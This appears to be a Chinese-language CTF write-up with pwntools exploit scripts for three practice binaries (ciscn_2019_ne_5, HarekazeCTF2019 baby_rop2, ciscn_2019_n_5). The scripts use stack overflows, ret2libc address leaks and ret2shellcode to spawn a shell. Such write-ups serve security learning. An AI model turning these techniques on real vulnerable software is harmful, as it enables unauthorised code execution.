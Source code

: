 ### ciscn_2019_ne_5

本题有 `GetFlag` 的后门，有一个 `memcpy` 的操作，此时需要关注的偏移实际上是 `dest` 到 `ebp` 的距离。管理员密码可直接通过反编译得到。

```python
binsh = 0x80482ea
sla('password:','administrator')
sla('Exit\n:','1')
payload = flat('a'*(0x48+4),elf.plt['system'],'a'*4,binsh)
sla('info:',payload)
sla('Exit\n:','4')
```

### [HarekazeCTF2019]baby_rop2

题目给定了 libc，结合题目名可以想到 ret2libc，这里只能调用 `printf` 来打印函数 GOT 地址，其余和常规 ret2libc 相同。

```python
pop_rdi = 0x400733
payload = flat('a'*0x28,pop_rdi,elf.got['read'],elf.plt['printf'],elf.sym['main'])
sla('name?', payload)
ru('\n')
read = uu64(r(6))
leak('read', read)
system, binsh = ret2libc(read,'read','./libc.so.6')
payload = flat('a'*0x28,pop_rdi,binsh,system,'a'*8)
sla('name?', payload)
```

### ciscn_2019_n_5

本题没有开启任何保护，因此方法多样，例如 ret2libc：

```python
sla('name\n', 'merc')
pop_rdi = 0x400713
#ret = 0x4004c9
payload = flat('a'*0x28,pop_rdi,elf.got['read'],elf.plt['puts'],elf.sym['main'])
ru('me?\n')
sl(payload)
read = uu64(r(6))
leak('read',read)
sla('name\n', 'merc')
system, binsh = ret2libc(read,'read')
payload = flat('a'*0x28,pop_rdi,binsh,system,'a'*8)
sla('me?\n', payload)
```

或者更简单的 ret2shellcode：

```python
sla('name\n', asm(shellcraft.sh()))
payload = flat('a'*0x28,0x601080)
ru('me?\n')
sl(payload)
```
